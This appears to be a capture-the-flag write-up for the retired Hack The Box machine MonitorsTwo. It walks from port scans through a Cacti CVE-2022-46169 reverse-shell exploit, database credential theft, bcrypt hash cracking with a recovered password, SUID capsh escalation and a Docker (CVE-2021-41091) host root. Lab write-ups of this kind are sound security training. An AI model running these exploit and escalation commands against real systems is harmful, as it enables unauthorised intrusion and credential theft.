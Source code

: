 ![[MonitorsTwo.png]]
### retired on (02/09/2023)
# Summary: 
## foothold:
Vulnerable web service which results in a www-data shell inside a docker container. 
## user:
using docker's `entrypoint.sh` script we're able to obtain DB credentials and dump all user's password hashes.
with `hashcat` its possible to crack one of the hashes and get user credentials for SSH.
## root:
Upon logging in with the user to SSH, we see a prompt for `you have mail`. checking the mail shows that the system is vulnerable to several CVE's.
One of the CVE's is about `moby` an open framework created by Docker to assemble specialized container systems.
with `www-data` shell we're able to escalate our privileges using SUID exploitation on `capsh`. and change the permissions of `/bin/bash` inside the container.
which in turn un-privileged users on host machine can find and execute said SUID binary (`/bin/bash`)
# Foothold
```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo masscan -p1-65535 10.129.109.77 --rate=3000 --wait=0 -e tun0
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-09-02 12:48:57 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.129.109.77                                   
Discovered open port 22/tcp on 10.129.109.77
```

```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo nmap 10.129.109.77 -sV -sC -p 22,80                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 08:58 EDT
Nmap scan report for 10.129.109.77
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```

### PORT 80
visiting port 80 we see a login prompt with Version and software name available.
![[Pasted image 20230902160102.png]]

searching on google the software and version we're able to find an exploit on github. 

![[Pasted image 20230902160030.png]]
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

The exploit requires url, local host and local port. for a reverse shell endpoint.
![[Pasted image 20230902160445.png]]
executing `python3 CVE-2022-46169.py -u http://10.129.109.77/ --LHOST=10.10.16.7 --LPORT=80`
![[Pasted image 20230902160402.png]]

should give us a shell as www-data user.

# USER
## System enumeration
after a quick glimpse it seems we're inside a docker container.
![[Pasted image 20230902160546.png]]

which in turn means there could be an entry script on root directory
![[Pasted image 20230902162019.png]]
which there is.

checking the contents reveals credentials for the database.
![[Pasted image 20230902161019.png]]

## DB enumeration
in order to interact with the DB we need a "full" shell. 
couldn't find python on system, `script` is another way to get a full interactive shell. 
```
script /dev/null -qc /bin/bash
(inside the nc session) CTRL+Z
stty raw -echo; fg;
```

with the shell we're able to login to the db. with the following command.
```
mysql --host=db --user=root --password=root cacti
```
![[Pasted image 20230902161555.png]]
next thing to do is to check which tables are available.
![[Pasted image 20230902161609.png]]

`user_auth` is interesting.
![[Pasted image 20230902161623.png]]

selecting the contents of the table, we get hashes for `admin` and `marcus`
![[Pasted image 20230902161640.png]]
## Cracking hashes
the hashes:
```
admin $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

now we can use hashcat to crack the hashes.
```
hashcat -d 1 -m 3200 hashes/HTB/MonitorTwo.txt rockyou.txt
```
cracked hash:
```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

The cracked hash belongs to marcus.
since SSH port is open we can try these credentials.
![[Pasted image 20230902162834.png]]
which indeed are valid.

# ROOT
### Potential LPE
when connecting with SSH we get a prompt that we have mail.
![[Pasted image 20230902162855.png]]
mail will be saved on `/var/mail/<USER>`
![[Pasted image 20230902163017.png]]
![[Pasted image 20230902163038.png]]
reading the mail we can conclude that there are couple vulnerabilities on the system.
checking `CVE-2021-41091` exploit, which is an exploit for moby for software containerization by docker.
searching online we're able to find an exploit available on github 
![[Pasted image 20230902163344.png]]
The exploit will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable
but before running the exploit we got to get root on the docker session, and change the permissions of `/bin/bash`. then run the exploit from host machine. 
the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).
This CVE requires root on docker container in order to exploit.
![[Pasted image 20230902163902.png]]


### Root on docker
after searching for vulnerabilities in the docker container, I've found that there is binary with SUID.
![[Pasted image 20230902164728.png]]

`/sbin/capsh`  has SUID bit on.
![[Pasted image 20230902165019.png]]
using GTFO bin we can exploit the SUID bit.
https://gtfobins.github.io/gtfobins/capsh/

![[Pasted image 20230902165352.png]]

so basically running `/sbin/capsh --gid=0 --uid=0 --`
should result in root shell
![[Pasted image 20230902165527.png]]
next is to set SUID bit on /bin/bash
![[Pasted image 20230902165602.png]]

the only thing left to do is to run the exploit from the host machine.
### Root on host
![[Pasted image 20230902163612.png]]
so we're gonna download the exploit using python server(from my attack machine).
![[Pasted image 20230902165755.png]]

![[Pasted image 20230902165713.png]]

running the exploit:
![[Pasted image 20230902165937.png]]
the exploit didn't spawn us a root shell, but showed the vulnerable path to `/bin/bash` 
![[Pasted image 20230902170009.png]]

now running `/bin/bash -p` from that path will grant us root user.
![[Pasted image 20230902165953.png]]

# additional information
more on root exploit:
https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure